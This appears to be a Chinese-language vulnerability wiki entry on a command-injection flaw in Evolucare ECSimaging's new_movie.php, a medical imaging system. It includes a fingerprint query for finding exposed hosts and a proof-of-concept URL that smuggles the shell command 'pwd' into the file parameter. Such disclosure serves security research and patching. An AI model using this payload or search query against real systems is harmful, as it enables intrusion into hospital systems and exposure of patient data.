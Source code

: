 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c.png)

验证POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![img](../../../.vuepress/public/img/1645546842924-a13f0f5d-da65-4933-b804-70f9a8ad1037.png)